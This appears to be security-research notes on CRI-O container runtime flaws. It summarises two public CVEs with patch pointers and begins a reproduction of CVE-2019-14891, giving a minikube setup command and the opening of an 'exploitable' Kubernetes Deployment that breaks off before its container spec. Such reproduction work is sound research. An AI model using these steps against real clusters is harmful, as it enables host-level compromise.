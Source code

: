 Response:
```sh 
{
  "storage_driver": "overlay",
  "storage_root": "/var/lib/containers/storage",
  "cgroup_driver": "cgroupfs",
  "default_id_mappings": {
    "uids": [
      {
        "container_id": 0,
        "host_id": 0,
        "size": 4294967295
      }
    ],
    "gids": [
      {
        "container_id": 0,
        "host_id": 0,
        "size": 4294967295
      }
    ]
  }
}
```

# Public CVE
> Because we couldn't find new vulnerabilities, so we focused on public CVEs

* [CVE-2018-1000400](https://www.cvedetails.com/cve/CVE-2018-1000400/)
 Kubernetes CRI-O version prior to 1.9 contains a Privilege Context Switching Error (CWE-270) vulnerability in the handling of ambient capabilities that can result in containers running with elevated privileges, allowing users abilities they should not have. This attack appears to be exploitable via container execution. This vulnerability appears to have been fixed in 1.9. Commit [patch](https://github.com/cri-o/cri-o/pull/1558/files)
* [CVE-2019-14891](https://access.redhat.com/security/cve/cve-2019-14891)
A flaw was found in cri-o(< 1.16.1), as a result of all pod-related processes being placed in the same memory cgroup. This can result in container management (conmon) processes being killed if a workload process triggers an out-of-memory (OOM) condition for the cgroup. An attacker could abuse this flaw to get host network access on an cri-o host. [Capsule8 research]( https://capsule8.com/blog/oomypod-nothin-to-cri-o-bout/)
For patch add in configuration file (/etc/crio/crio.conf)
```
conmon_cgroup: system.slice 
```
 
# Try to reproduce CVE-2019-14891
- Install and run old version of minikube(1.3.1) and run cluster with cri-o(1.15.0)
```sh
$ ./minikube-linux-amd64 start --vm-driver=kvm2  --container-runtime=cri-o --memory=2048
```
- Our implementation of exploitable kubernetes deployment
```sh
apiVersion: apps/v1
kind: Deployment
metadata:
  name: repro-pod1
spec:
  selector:
    matchLabels:
      name: repro-pod1
  template:
    metadata:
      labels:
```
